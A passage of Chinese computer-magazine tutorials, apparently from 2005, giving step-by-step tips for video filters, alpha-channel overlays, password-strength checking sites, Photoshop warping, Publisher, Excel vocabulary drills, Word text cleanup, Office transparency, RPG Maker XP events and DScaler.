笔者觉得最有用的项目是“仅处理右半部分”选项，该功能可以让你方便地查看设置前后的对比，找到自己最喜欢的效果。

### 小提示

FFDShow拥有强大的后处理功能，善加应用可以明显地优化画质，不过不能无限制无原则地使用，因为它会增大系统资源的消耗，而且某些功能还有待完善，容易出错。另外，FFDshow还有一个音频设置程序，可进行音量、混音、均衡器等参数的调整，可有效地弥补MPC在音频处理上的不足。

### 实例7: 小工具大用途

暴风影音程序组中附加好几个小工具，它们可是暴风影音的好帮手哦! 上例中的“暴风影音综合设置”是一个，下面再介绍一下Gspot的使用方法。

第一步: 在暴风影音程序组中单击“Gspot2.52”运行它。单击菜单“文件→打开”命令，导入一个要查看的媒体文件。

第二步: 导入媒体文件后，该文件的视频及音频编码信息(如编码类型、码率、分辨率等)就会出现在相应的栏目中。在其“状态”栏中还能显示系统中是否有可用的解码器，如果有，则显示为“Codec(s) are Installed”，反之为空白。

第三步: 如果想要了解系统是怎样调用滤镜来处理媒体文件的，可以在界面下方中的“建议的解码器方案和测试”区中进行测试，这样详细的处理过程就会显示出来(见图3)。

### 实例8: “后期处理”我也行

当我们用数码摄像机将生活中的一个个小片段记录下来并播放的时候，突然发现有些视频看起来非常模糊，而且色彩不艳丽，这就不免会影响我们观看时的情绪。如果利用一些专业的DV后期处理软件对其进行处理，又是一件非常复杂而又麻烦的事情。其实对于这样的问题，我们完全可以利用暴风影音中的FFDShow来进行解决。

## 善用透明通道 DIY 超个性电影

现在获取电影片段的方法挺多，可以自己用 DV 甚至是手机拍摄，从网上下载，从DVD上截取等。那怎么样才能给这些视频资源打上自己的“印记”，成为自己的“作品”呢？借助“透明通道”，可以完成这样的心愿。

小知识

什么是透明通道？

如图1所示，同样的一个图形，左侧的那个完全覆盖了底层的图像，而右侧那个则如同“挖空”了一样，底层图像的中间部分透了出来。图片中被“挖空”的部分就是所谓的透明部分了，只有个别图形格式(如PNG、TIF、GIF等)支持图片的透明属性，它们一般都有一个专门用于记录透明部分的Alpha通道，即透明通道。善用透明通道，就可以为影片加上独特的效果。



### 实例1: 给电影穿一件漂亮的“外衣”

- 第一步: 首先准备好一个准备加工的视频文件，可以是自己用 DV 拍的短片，也可以是网上下载的 MV 之类的文件。本例是从http://ftp11.enet.com.cn/pub/ent/yingshi/samsung.rar下载到的韩国影星全智贤热舞的广告片，解压后得到samsung.mpeg文件。
- 第二步: 接下来在Photoshop中准备一个边框图形。本刊《框住你的美丽》一文介绍了多种制作相框的方法，大家可以找来参考一下。找不到也没关系，既可以随意画一个简单的边框图形来做实验，也可以像图2所示的那样制作一个较为复杂的图形。注意，边框图形的尺寸大小，要尽量和准备装饰的视频文件的大小相一致。



- 第三步: 在Photoshop中，执行“选择→颜色范围”命令调出一个颜色选择对话框，用光标在边框图形中间白色的地方点击一下，取默认的设置，然后单击“确定”返回。
- 第四步: Photoshop 主界面，然后图像中所有的白色都将被选中。执行“选择→保存选区”命令调出保存选区对话框，直接单击“确定”即可将当前选区创建为Alpha通道了，此时在通道调板上可以看到新生成的Alpha通道(即透明通道)。注意，一定要选中这个通道，然后按Ctrl+I键反向一下，因为通道中黑色的部分才表示透明。将图像以TIF格式保存下来，这样才可以保存透明通道的信息。
- 第五步: 启动视频编辑软件会声会影8，点击上面的“编辑”标签，然后在右侧“视频”窗格空白处点击右键，选择“插入视频”命令，找到上面准备好的samsung.mpeg文件打开它，即可将它导入视频窗格中，再从视频窗格中将该段视频拖放到底部时间轴的视频轨上。
- 第六步: 单击右侧“视频”下拉按钮，选择“装饰→边框”，在空白处单击右键，选择“插入装饰”，把第二步和第三步中制作的TIF格式的边框图形导入进来。然后将该边框图形拖曳到“覆叠”轨中，并拖动它右侧的黄色边线，一直将它拉到和上面的视频片段一样长度为止。在时间轴空白处点击一下鼠标以取消对所有视频的选择，现在再单击播放键(或按空格键)看看效果，还不错吧！注意：如果出现边框缩小的问题，可点选“覆叠”轨中的边框图形，然后单击左侧窗格上的“动画和滤镜”标签，这时预览窗口中的图形会显示带节点的方框，拖动节点就可以调整图形的大小了。
- 第七步: 点击主界面上的“分享”，再在左侧窗格中单击“创建视频文件”选择一种影片格式保存即可。

### 实例2: 让电影“烙”上我的印记

播放影片的时候，如果屏幕的角落上能动态显示出“XXX 倾心制作”字样，或者你的主页地址等信息，那该有多酷啊。在会声会影8中就可以轻松实现这一想法。

- 第一步: 准备一个动态 Logo，可以自己制作，也可以从网络上下载。动态 Logo 最常用的格式是动画 GIF，需要注意的是所选的 GIF 动画一定要具有透明背景，否则它会将被修饰影片的画面完全遮挡住。
- 第二步: 因为在会声会影8中无法直接使用GIF动画，所以要把它转换成AVI视频文件。笔者是通过 Flash MX进行转换的:首先在Flash MX中点击“文件→导入→导入到舞台”菜单命令，导入之前准备好的GIF动画；然后，点击“修改→文档”，把舞台的尺寸修改成和GIF动画一样的大小；最后，点击“导出→导出影片”，以AVI视频格式导出即可。需要注意的是：视频格式一定要选择“32位彩色Alpha”，否则不会保留透明通道。
- 第三步: 在会声会影8中的“视频”素材栏下，单击右键，选择“插入视频”，把刚才导出的AVI视频文件加入。最后把该视频拖曳到“覆叠”轨，并单击“动画和滤镜”标签调整好LOGO的位置和大小即可。这样，一部超个性化的电影就制作完成了。

（辽宁 小新）

## 你的密码安全吗？

每个用电脑的朋友接触最多的就是密码，为了保证自己的资料不向别人泄漏，几乎每天都要和密码打交道，那么怎么才能知道自己的密码是否安全呢？这里笔者给大家介绍一个网站，通过这个网站就可以知道自己密码的安全级别。

登录https://secure.aindustries.com/clientarea/control/password/PasswordEvaluator.a o，在对话框中输入你的密码，点击“evaluate password”即可得到评价，然后网站会从Length(长度)、Characters(复杂性)、Case(大小写)、Dates(日期)、Dictionary(字典)几个方面对密码进行诊断，只有全为“Good”，才表示不错。

在这个网站左侧，点击“Generate”按钮，还可以用它来生成一些随机密码。

如果你对密码强度要求很高，可以登录http://geodsoft.com/cgi-bin/pwcheck.pl，这里有很多规则可以设置，设置完成后，把自己的密码输入到文本框中，然后再点击Submit按钮就测试出你的密码是否符合你的规则设置了(见图)。

如果自己的密码一直不能通过也没有关系，可以在http://geodsoft.com/cgi-bin/password.pl这里来生成一个超级密码。

（辽宁 小新）



## Photoshop CS2 扭曲工具实战

在Photoshop CS2新增加的工具中，Image warp(扭曲)命令非常神奇，它能让你随意地扭曲变形图像。它与切变滤镜非常相似，不过它的操作方式更加自由多变，并具有可控性，能完成你所设想的变形效果，不像切变滤镜那样过于随机。

### 实例: 翻开的画册

- 第一步: 启动Photoshop CS2，打开一个空白的书本图像（见图1）。



- 第二步: 再打开两个人物图像，然后用移动工具（快捷键为V）将其中的一个人物图像拖放到书本上，该人物图像将自动建立一个图层。确保人物图层为选中状态，然后执行“Edit→Transform→Warp”命令，图像将被一个网格罩住。
- 第三步: 用鼠标拖动网格上的各个点，如图2所示，调整图像的扭曲程度使其与书本的边缘平行起伏，调整好后按回车键确定。



- 第四步: 导入另一幅图像，按上述步骤将其放到书本的右侧页上。为了增加立体光影的感觉，还可以新建两个空白图层，对照书的外框形状画出选区，然后为选区填充上黑白渐变，按Ctrl+D键去掉选区，接着将渐变图层的模式设置为“Multiply(正片叠底)”。最后的效果如图3所示，怎么样，是不是跟真实的书本一样。（安徽 无言）



Office 2003中正式收入了Publisher，它是一款商务排版软件。与其他排版软件不同的是，其主旨是节约商务办公人士的时间，所以自带有大量的模板，网页、信封、贺卡、菜谱、日历、宣传小册子、发票订单等，凡是你能想到的应用，它几乎都能提供，可以快速制作出你所需求的产品。而且它与Word能很好地兼容，所以新手也可以很快地上手操作。

## Publisher——办公室里的排版高手

### 实例1: 5分钟创建个人网上销售店

现在比较流行个人网上开店，拍卖的东西千奇百怪，应有尽有。不过开店虽然好玩，但要做出一个像样的销售网站并不轻松。下面就教大家如何在Publisher中快速创建一个销售网站，制作其他类型网站也可以此为参考。

- 第一步: 在Office程序组中，单击Microsoft Office Publisher 2003启动它。进入主界面后，可以看到Publisher将模板分成了四大类，单击展开“网站和电子邮件→网站→简易网站生成器”，可以看到它下面有许多网页模板。
- 第二步: 点击其下的“聚光灯式三页网站”，将出现简易网站生成器向导窗口。选中网站所需的内容项，单击“确定”后Publisher便会自动生成一组网页。
- 第三步: 在左侧的网站选项窗格中，可对生成的网站进行多种修改，比如在“导航栏”中，简单地点选某种样式，即可自动调整导航栏的位置，单击展开“配色方案”，可以为网站选择不同的色彩风格。
- 第四步: 上面修改的是网站的总体风格，接下来的工作就比较简单了，将各种提示文字或图形替换成自己的内容就可以了。它的编辑操作与Word相似，这里就不详细介绍了。
- 第五步: 单击下方的页面标签，可快速切换到其他页面中继续修改，也可以右击某个页面标签，再选择“删除页”项即可删除该页。编辑完成后，按Ctrl+S键保存好源文件（后缀为.pub），然后可单击“文件→网页预览”在浏览器中预览网页效果，觉得满意的话，再单击“文件→另存为”，将文件名改为index，保存类型选为“网页”，点击确定即可。双击index.htm就可以欣赏一下自己的作品了。

小提示

单击展开“网站和电子邮件→电子邮件”，它下面带有许多商务电子邮件模板。写邮件的操作方法与上面创建网页的方法差不多，写好邮件后，执行“文件→发送电子邮件→以邮件形式发送此页”命令即可。

### 实例2: 我的CD我做主

相信经常上网的人，一定没少下载MP3歌曲，把最喜欢的歌曲刻录到同一张CD上，听的时候就方便多了。不过刻录的CD一多，往往忘了CD光盘上都有哪些歌曲了。我们可以用Publisher设计打印CD盘面，详细列出歌曲的名称，这样找起来就一目了然了。

- 第一步: 启动Publisher，单击展开左侧的“书面出版物→标签”，点选其下的“CD/DVD标签”，再在右侧单击“动画CD/DVD标签”项。
- 第二步: 本例所选的模板已经具备了CD盘面主要的元素。点选左侧文字，按Delete键删除它，然后输入实际的歌曲名称，再把上面的文字改成自己CD的名称（如改成：“当前最热网络歌曲”），还可以添加一些明星的图片点缀一下。
- 第三步: 如果你不喜欢这个模板的色调，可在左侧单击“配色方案”，然后再挑选一种其他的方案。设置完成后，将光盘贴纸放到打印机中打印即可（最好用彩喷，这样更加漂亮）。最后撕掉贴纸的保护层，将它贴到CD盘面上，一张个性化的CD就制作完成啦。

### 实例3: 专业明信片DIY，方便又经济

使用明信片是与别人保持联系的一个好办法，如果联系人很多，则可以借助Publisher来快速经济地制作和打印明信片。

- 第一步: 启动Publisher，单击展开“书面出版物→明信片”，在右侧单击你想要的明信片模板。
- 第二步: 在“明信片选项”任务窗格的“大小”下，单击“四分之一页”。在“第2面信息”下，选择您希望在明信片的第2面编排信息的方式。在“每版份数”下，单击“多份”。
- 第三步: 在任务窗格中单击“配色方案”、“字体方案”等，设置明信片的总体风格。然后用自己的文字和图片替换明信片模板上的内容，你可以根据实际需要调整文字及图片的位置和大小。
- 第四步: 单击“文件→打印预览”查看一下打印效果，如果有不满意的地方，可以继续修改，直到满意为止。在支持双面打印的打印机上打印明信片非常容易:单击“文件→打印(或打印合并)”，在打印对话框选择正确的打印机，并根据打印机的说明设置双面打印项，然后在“打印范围”下单击“全部”，最后“确定”即可。注意:最好先在测试纸上练习打印，以确保正式打印时明信片能按照你需要的方式打印出来。对于不支持双面打印的打印机，则要麻烦一些:可以创建两个Publisher文件，每个文件代表明信片的每面，第一轮打印第一面，然后将打印纸换面，接着再在第二轮中打印第二面。

（武汉 冯津 北京 一页）

## Excel里轻轻松松背单词

故事:国内旅游市场的竞争压力越来越大，环球旅游公司决定为所有的员工提供英语培训，以准备拓展国际旅游市场。作为公司经理，八戒自然要身先士卒，除了正规的培训课程，他另外还为自己制订了一项特别计划:坚持每天背十个英语生词。

### 实战1: Excel里背单词

八戒在Excel里设计的背单词工作表的使用过程是这样的:阅读英文文章遇到生词后，就把该生词以及与它对应的汉语词汇都记录在“背单词”工作表中并反复背诵;单词都记住后，进入到“汉译英”工作表进行练习以巩固记忆，这个工作表能自动显示出汉语词汇，要求你填写对应的英语单词，拼写对了就显示“正确”，否则显示“错误”;在“英译汉”工作表中继续做巩固练习，它与“汉译英”正好是反向练习。对那些总是拼写错误的单词，就需要适当增加练习的量了。本例源文件，可从http://www.newhua.com/cfan/200515/word.rar处下载。

- 第一步: 启动Excel XP(或2003)，它会自动新建一个工作簿，并默认包含了三个工作表，分别双击左下角的工作表标签，依次将默认的名称Sheet1、Sheet2、Sheet3改为“背单词”、“汉译英”、“英译汉”。按Ctrl+S键保存工作簿，本例文件名为“轻轻松松背单词.xls”。
- 第二步: 单击“背单词”标签切换到该工作表中，在第一行的前两个单元格中(即A1、B1)分别输入列标题:英语、汉语。可以右击这两个单元格，再单击“设置单元格格式→图案”，为单元格选择一种背景色装饰一下。以后遇到英语生词后，就可以输入到这个工作表中，并查出相应的汉语词汇也输入进去(见图1)。



- 第三步: 点击“汉译英”标签进入该工作表，在这里将只显示汉语词汇，并要求填写相应的英语单词，再自动判断你填写的内容是否正确。输入列标题:英语、汉语、评分。点选“汉语”列的第二行(即B2)，输入公式:“=背单词!B2”(不含引号，下同)，按回车键确定后，会发现它显示的内容，与“背单词”工作表中B2单元格的内容完全一样。向下拖动该单元格的填充柄(即单元格右下角的小黑块)，会发现“背单词”工作表B列的内容在这里自动显示出来。

小提示:

在这里用到了跨工作表引用，它的格式为工作表名称加感叹号“!”再加上该工作表中的具体单元格。如上面我们在“汉译英”工作表的B2单元格输入的公式“=背单词!B2”，就是表示要在该单元格中显示“背单词”工作表中B2单元格的内容。

- 第四步: 在“评分”下面的单元格中(即C2)输入公式:“=IF(EXACT(背单词!A2,A2),"正确","错误")”。这个公式的意思是:比较“背单词”工作表中A2单元格与本工作表中的A2单元格，如果内容相同(也就是当你输入了正确的单词)，则显示“正确”，否则显示“错误”。拖动单元格右下角的填充柄，可将本公式快速填充到“评分”列的其他单元格中。

EXACT()小档案

语法:EXACT(text1,text2)

说明:这个函数用来测试两个字符串是否完全相同，如果完全相同，则返回真(TRUE)，否则返回假(FALSE)。EXACT能区分大小写，但会忽略格式上的差异。其中的参数，Text1是待比较的第一个字符串，Text2是待比较的第二个字符串。

应用举例:在“=EXACT(A2,B2)”中，如果A2和B2中都是“word”，则返回TRUE;如果A2为“Word”或者是“w ord”，而B2中为“word”，则返回FALSE。

- 第五步: 第四步中的公式还是不够完美，因为当你没有输入任何单词的时候，它也显示为“错误”。这里通过上期介绍的嵌套IF函数，将它稍加改造一下，当没有输入任何单词时，则显示为“无”: =IF(A2="","无",IF(EXACT(背单词!A2,A2),"正确","错误"))

最终效果如图2所示。



- 第六步: 切换到“英译汉”工作表，按上述步骤设置类似的结构，但它的效果应与“汉译英”相反，即要根据英语单词来填写汉语。因此，我们将在C3单元格中（注意：此处原文有OCR错误“C3)”已纠正为“C3单元格中”），将其中的公式修改成下面内容：

`=IF(B2="","无",IF(EXACT(背单词!B2,B2),"正确","错误"))`

这样一来，它与“汉译英”工作表的效果就正好相反了。

按上面的步骤建立好各个工作表之后，就可以用它来背单词了，每天都可以增加新的单词，然后在“汉译英”和“英译汉”工作表中只需要简单地拖动相应列的单元格的填充柄就可以继续练习了。

### 实战2: 成绩统计直方图

- 第一步: 切换到“汉译英”工作表中，单击列号C全选该列（即“评分”列），然后点击菜单“插入→名称→定义”命令，在打开的定义对话框中输入定义的名称（如：“评分”）后，单击“确定”返回。为该列定义一个区域名称的好处就是可以方便快捷地引用该列中的所有数据。
- 第二步: 随意点选几个空白的单元格，如本例在E3单元格中输入提示文字“错误比率”，E4单元格中输入“正确比率”，E5单元格中输入“未填比率”。接着在“错误比率”之后的单元格（即F3）中输入如下公式：=REPT("g",10*(COUNTIF(评分,"错误"))/(COUNTA(评分)-1)) 其中，COUNTIF(评分,"错误")是累计“评分”列中包含“错误”字样的单元格的数目；COUNTA(评分)则是累计“评分”列中所有非空单元格的总和，之所以用它减去1，是因为我们要把第一行（即列名称）除去；将上述两个数据相除再乘以10，即可得到该列中带有“错误”字样的单元格所占的百分比，不过为了不让直方图太长，本例中只乘以10了。有关文本函数REPT()，请看下面的小档案。注意，该单元格选用的是Webdings字体（一种图形字体，Windows系统自带）。按住该单元格右下角的填充柄再向下拉两行，并将下面两行公式中的“错误”，分别改成“正确”和“无”，本例最终的效果如图3所示。

REPT(text,number_times) 说明：按照给定的次数重复显示文本。可以通过本函数来不断地重复显示某一文本字符串，对单元格进行填充。

应用举例：如在某单元格中输入公式：=REPT("-",10)，将自动填充10个短划线(----------)；再比如输入公式：=REPT("*-",3)，字符串将重复显示3次(*-*-*-)。在实战2中输入的公式：=REPT("g",10*(COUNTIF(评分,"错误"))/(COUNTA(评分)-1))，其中10*(COUNTIF(评分,"错误"))/(COUNTA(评分)-1)主要是为了获得重复的次数，g为要重复的字符，当该单元格使用Webdings图形字体时，g显示为黑方块，所以才有图4所示的效果。

### ★转换字母大小写

在本文的例子中，因为EXACT()函数是区分大小写的，所以它会把Word和word看成是不同的字符串，当大小写不匹配的时候，即使你输入的单词是正确的，它也会报错。我们可以通过字母大小写转换函数先将两个比较文本转换成统一的格式，然后再比较，就可以避免这个问题了。可将实战1中的公式改造如下：

`=IF(A2="","无",IF(EXACT(PROPER(背单词!A2),PROPER(A2)),"正确","错误"))`

其中的PROPER(text)函数就是将字符串(text)转换成首字母大写后面部分都小写的格式，这样前后两个文本串就统一了。除此之外还可以使用其他字母大小写转换函数，如：LOWER(text)，将字符串都转换成小写字母；UPPER(text)，将字符串都转换成大写。

### ★使用文本提取函数转换日期

从外部导入Excel中的大量数据信息，如股市行情信息，经常会遇到一些Excel无法处理的日期格式，最常见的例子就是YYMMDD格式，如：050710。这时就可以通过LEFT(源字符串，左起数提取的字符数)、MID(源字符串，开始处，提取的字符数)、RIGHT(源字符串，右起数提取的字符数)这三个函数分别提取出年份、月份、天数再插入DATE()函数中，这样Excel就可以处理这些日期了。我们假设上面所说的日期“050710”包含在A1单元格中，则可以通过下面的公式来处理：

`=DATE(LEFT(A1,2),MID(A1,3,2),RIGHT(A1,2))`

### ★删除导入文本中的垃圾字符

从数据库或其他文本文件导入的字符，经常会有各种垃圾字符，如空格、换行符、不可打印的字符等。可通过TRIM(text)和CLEAN(text)这两个函数来处理这些垃圾字符，前者能删除字符串中多余的空格，后者可以删除字符串中的不可打印字符。

> （北京 映山红）

## 网页文章入住Word的几道坎

笔者在学校工作，经常从网上摘取一些试卷或教材，再到Word中排版、打印。在摘取各类网页文章的过程中，笔者遇到了各种各样的问题。从菜鸟一步步走来，每类问题对我来说都是一道坎，好在这些坎我都迈过来了，现在写出来与大家共享。

### 实例1：“全选”实不可取，“粘贴”也要选择

- 1. 有“选择”才会有速度

选中网页上的内容复制后，在Word中直接按Ctrl+V键粘贴，往往需要很长时间文字才能显示在页面中，有时哪怕只是几行文字，粘贴到Word中也要几十秒，实在不爽。如果要的是文字，可以复制网文后，再在Word中单击“编辑→选择性粘贴”菜单命令，在打开的对话框中选用“无格式文本”，确定后网页文字就会快速粘贴到Word中了。

- 2. 双管齐下治理“杂乱”文章

有一次我在网上复制了一份问题解答，网页中没有任何异常，可是当我粘贴到Word中，经过一番排版、打印后，才发现文章怎么也读不通（见图1）。仔细阅读，才发现这些文字出现了乱行，第一行后面接着的不是第二行，而是第三行，甚至是第四行……如果这些网页的内容是计算机程序语言，就更会让你晕头转向不知所云了！如果人工去给它们移位，工作量不可想象。我最终以直接粘贴加选择性粘贴的方法解决了这一问题。第一步：用鼠标拖动选取自己所需要的文字，按Ctrl+C键复制，在Word中再按Ctrl+V键直接粘贴，得到的结果如图2所示。







### 实例2：网页文档后期处理

有人在Excel中作中转，即把复制的内容粘贴到Excel中，再“全选”“复制”，然后再选用“选择性粘贴”中的“无格式文本”。不过这种办法在原来的表格边线位置会出现一些空格。

上例中虽然把文字给拿下了，可是下面的事情还很多呢，你看那宽得出奇的行距（出现在直接粘贴的情况下），还有那无数的空行把页面涨得满满的。现在就来解决这些问题。

- 1. 常用方法 在Word的“编辑”菜单中打开“查找和替换”对话框，在“查找内容”中输入“^p^p”（不含引号，下同），“替换为”中输入“^p”，然后单击“全部替换”按钮。
- 2. 空行用的是哪种换行符 不是所有网页空行都能用上面方法替换掉，关键还得分清文件中用的是手动换行符（“Shift + 回车”），还是段落标记制作出来的空行。如果文件中用的是手动换行符，就要用“^l”替换成“^p”（这里用的不是1，而是L字母的小写），也可以直接用替换对话框里的“特殊字符”，里面有“手动换行符”，空行才能去除。
- 3. 注意空格的存在 替换空行时，要灵活对待“查找”的内容，看你所获得的网文具体存在什么样的特征，看看换行符前是不是有空格（换行符前的空格不易被发现）。比如换行符前只有一个空格时，可将“^p ^p”（注意两个换行符之间有一个空格，如果换行符前有两个空格，那么查找时，输入的两个换行符之间要有两个空格，依此类推）替换成“^p”，单击几次“全部替换”即可；如果网页中是手动换行符与回车符交替使用，则把“^p ^l”替换成“^p”即可。 经过以上处理，入住Word的网文是不是干净了许多。

> （北京 雨膏）

## Office中巧设图片透明度

使用半透明图片可以让文档更有特色，不过想必大家都相信在Office 2003中是不能为图片设置透明度的吧？因为插入的图片在格式设置中“透明度”选项总是灰色的，无法使用。其实只要绕一个小小的弯子，在Office 2003中也可以轻松地为图片设置透明度。本文中的方法在Word、Excel、PowerPoint等Office组件中都同样适用，下面仅以Word 2003为例加以介绍。

## 方法1：通用设置法

第一步：先画一个矩形，双击矩形进入“设置自选图形格式”窗口，在“颜色与线条”选项卡中，单击“颜色”下拉按钮，从列表中选择“填充效果”，在弹出的“填充效果”窗口的“图片”选项卡中单击“选择图片”按钮打开要设置的图片，选中“锁定图片纵横比”和“随图形旋转填充效果”复选项。

第二步：确定后返回“设置自选图形格式”窗口，现在你可以在“颜色与线条”选项卡中设置透明度了（拖动透明度滑钮即可），然后把边框线设置为“无线条颜色”。

第三步：确定后将得到如图所示的效果。与直接插入的图形一样，也可以选中矩形，再从“图片”工具栏中进行颜色、对比度、亮度等的调整。如果改用不同的自选图形进行设置还可以得到各种形状的透明图片。

## 方法2：剪贴画设置法

对于从Word剪贴画库中插入的剪贴画显然不方便用上面的方法设置，因为要把剪贴画设置为填充是比较麻烦的，不过我们可以采用另外一招。

第一步：首先插入剪贴画，双击插入的剪贴画，在弹出的“设置图片格式”窗口的“版式”选项卡下，单击选择“浮于文字上方”，确定后退出。

第二步：右击图片选择“组合/取消组合”，接着再右击选择“组合/组合”。好了，现在右击此图片并选择“设置对象格式”；看看在“颜色与线条”选项卡中的透明度设置，是不是已经可以使用了？

小提示：本方法仅适用于.wmf格式的剪辑图片。另外，图片在分解重组后，下面会多出一个绘画布，如果不喜欢，只要把图拖出画布外，再选中画布删除即可。

（福建 陈桂鑫）

## RPG Maker XP游戏制作高手进补篇

2005年第12期《电脑爱好者》介绍了RPG Maker XP的使用方法，相信很多人和我一样为了实现自己DIY游戏的梦想，投入到RPG Maker XP的实践之中。如何做出自己的相对完善的游戏呢？仅凭几个物品的摆放，NPC的对话明显不足。下面就来介绍RPG Maker XP中的两个基本功能——开关及条件分支。

### 开关

相信大家在游戏中见到过只有达成某些条件，才能够做某事的情况（比如接过任务才能完成任务，有钥匙才能打开宝箱）。这里就要用到开关。

### 条件分支

即达到某条件即发展剧情A，若没有达到即发展剧情B。这是在很多游戏中常见的操作手法。

完成了对这两个功能的初次见面，就让我们深入其中，开始制作一个涉及这些功能的小游戏。

## 准备场景

第一步：打开RPG Maker XP，新建一个工程。命名并设置其保存路径。

第二步：按照2005年第12期《电脑爱好者》上的方法，制作场景，分别为小屋内（见图1）及小屋外（见图2）。





## 事件制作

现在，我们就要迎来重点，制作下面的剧情。
主角在小屋外与小屋主人NPC谈话，小屋主人允许主角进入小屋并给了主角屋内宝箱的钥匙。进入小屋打开宝箱得到物品。得到物品后与小屋主人对话结束游戏，宝箱只能开一次，开启后钥匙消失，注意门需要主人同意才能打开。剧情简单，却包含不少基础操作。

第一步：门外要有人，进入事件模式。双击小屋外NPC应出现的地方。“角色图片”这里选了046-Grappler01，事件开始条件为“决定键”。双击执行内容中的菱形，点选“显示文章”，输入NPC要说的话“我房间里有一个宝箱，里面的东西可能对你有用，去看看吧。”继续设置显示文章“得到宝箱的钥匙*1”，双击菱形，点选“开关操作”，将该开关操作命名为“0001：主人允许”（当然别的也行），“操作”设为ON（见图3）。这样就打开了事件“主人允许”的开关。若将其设为其他事件的“出现条件”，则在“主人允许”事件未出现的情况下，该事件不出现。
再次设定执行内容，选增减物品，物品选择“宝箱的钥匙”，操作为“增加”，操作数为“常量1”。完成后可以调整NPC是否走动，及走动的速度与频率。如图4所示的就为设置好的样子，现在，准备进屋吧。





第二步：屋子要有门。双击屋子门应出现的地方。“角色图片”在170-DOOR01中选一个合适的。由于在主人未同意的情况下，门应该打不开。所以“执行内容”中仅仅设置文章：“人家没同意就开门，不太合适吧~”。但我们已经得到允许后，门的事件就不应该是打不开了的了。所以，单击门的事件中的“新建事件页”一项。进门的事件我们将在此完成。“角色图片”选择门打开的图片。点选“事件出现条件”中“开关”前的小勾。选择“0001：主人允许”为ON时。这样只有“主人允许”ON时，该事件才会发生。发生什么事件呢？当然是场景转移！双击“执行内容”中的菱形，选择第2页的“场所移动”，直接指定到小屋内的门口。好了，这样终于完成了剧情的第一句。

第三步：宝箱的设置。在小屋内双击宝箱应出现的地方。角色图片在174-Chest01中任选。执行内容有“文章：得到回复剂*1”，“文章：失去宝箱的钥匙*1”，“增减物品：回复剂+1”，“增减物品：宝箱的钥匙-1”，“开关操作：0002-宝箱打开ON”。接着是要把这个箱子做成“一次性”的。单击“新建事件页”，角色图片选择相应的宝箱打开的图片。勾选事件出现条件中的“开关”，选择“0002-宝箱打开”。执行内容为“文章：箱子是空的”（见图5）。



第四步：和主人道别。要从屋子里出去，就要有个场景转移点。在门口制作一个。重新选定主人，“新建事件页”。事件出现条件设为开关“0001-主人允许”ON时。“事件指令”中选择“条件分歧”，选择开关“0002-宝箱打开”值为ON，并勾选“当条件不符合的场合时的设置”（见图6）。“确定”后，要求输入开关“0002-宝箱打开”ON时的事件与开关“0002-宝箱打开”非ON时的事件。ON时，设置为“文章：你拿到了宝物，继续你在RPG Maker XP的冒险吧！”“游戏结束”。除此以外的场合设置为“文章：你还没有拿到宝物么？”



大功告成！赶快测试一下自己的作品，看看是否有漏洞。如果一切正常的话，就打包起来，作为你掌握新技能的见证吧。
其实这些仅仅是RPG Maker XP的一些基础功能而已，但再强大的游戏也需要基础来构建。希望大家努力挖掘软件的妙用，争取早日做出属于自己的经典游戏！

（北京 叶壮）

## 打游戏机我要“液晶电视”

由于价格因素，液晶显示器(LCD)与液晶电视相比存在很多不足，比如响应时间，扫描频率等。如果电视卡再选择不好，更会造成用LCD在看电视、打游戏时画面模糊。尤其是在打游戏时，模糊的画面根本没办法让你看清画面上的文字。
如何解决这些问题呢？来看看下面的解决方案吧。

- 1. 为什么在LCD上显示出的效果会很差？
  ①分辨率太高惹的祸
  大多数人都习惯于使用1024×768或更高的分辨率，对于显卡来说，这并不算什么，可是对于那些通过电视卡将画面输出到LCD上的设备就不同了，比如PS2、DVD等，它们都是针对电视来设计的，一旦将信号输出到1024×768的LCD上时，就会出现画面颗粒变粗等现象。
  ②响应时间也添堵
  由于LCD和CRT显示原理不同，所以LCD的响应时间不如CRT短。因此，如果让电视卡直接用CRT的信号输出到LCD上，LCD肯定无法配合如此高的刷新速度，造成画面跳动，如果超出了LCD刷新的频率甚至还会无法显示。
  ③选好电视卡很重要
  我们知道电视卡有两种，一种是外挂式电视盒，不通过主机，只要接上显示器就可以使用。这种电视盒除非说明支持LCD，不然输出时都难免会出现问题。另外一种就是内置或USB式的电视卡(盒)，这种电视卡(盒)除可通过显卡支持高分辨率外，还能用软件对信号进行处理加强画质。所以要玩游戏机，就一定要买后面这种电视卡(盒)。





- 2. 硬件提升很重要
  从硬件上来说，主要是选择一款比较适合的电视卡，另外，就是为游戏机配一根可以提升画质的S端子线。

- 3. 软件解决是关键
  要提升LCD的显示画质，我们使用的软件为DScaler。它可以将输出到LCD上的水平线扫描信号转换为高分辨率的倍频信号，从而大大提升了画面的清晰度。

- DScaler小档案
  软件版本:4.1.12
  软件大小:2MB
  软件性质:免费软件
  适用平台:Windows 9x/2000/XP
  下载地址:http://www.newhua.com/cfan/200516/DScaler.rar
  软件备注:①软件安装时会要求安装上网助手及DUDU下载器，请不需要的朋友注意去除勾选。
  ②由于是通过电脑计算改变画质，因此DScaler对电脑的CPU及内存要求较高。使用软件时，最好不要再使用其他程序。

第一步:安装好电视卡，接好游戏机。打开DScaler，这时会弹出“常规硬件设置”窗口，根据你的配置选择好“处理器速度”，如果你的电脑速度较慢，建议在“缺省选项”下选择“显示所有帧-低抖晃率”，“使用方法”使用默认项，点击“确定”。
第二步:从“信号源”菜单中选择电视卡项，然后从菜单中选择“视频→视频输入→SVideo视频”。这时打开游戏机，你就可以看到游戏画面了。
第三步:现在我们要开始调整游戏机画面了，点击菜单中的“反交错→自动插场检测”项，接着再继续勾选“视频(TomsMoComp)”项。
第四步:点击“滤镜→伽玛”菜单项，这样画面亮度会有所增加，以弥补LCD的亮度不足。同时我们还可以勾选“滤镜”菜单项下的“锐化”、“降噪(自适应)”项。

小提示
在“滤镜”菜单下有“滤镜设置”选项，这里可以对每个滤镜的效果进一步调整，对于一般人来说使用默认值即可。
现在你再看看游戏机的画面，是不是有了很大的变化？

- 4. 进阶问答篇
  问:不少游戏都可以运行在16:9模式下，那么在DScaler上如何实现呢(见图3)?
  答:你可以从菜单中选择“纵横比→16:9压缩宽银幕”，就可以切换到16:9宽银幕格式了。
  问:我想截取游戏中的画面，请问应该用什么方法?
  答:选择菜单中的“操作→捕捉单一静止图片”项，或按L键，就可以完成抓图。抓取的图片自己保存在DScaler的安装目录下，文件扩展名为TIF。如果想设置为其他目录，需要点击“设置→高级设置”菜单项，在弹出窗口左侧选择“静止画面设置”，然后在右侧点击“保存静止画面路径”，在“数值”下修改路径即可。
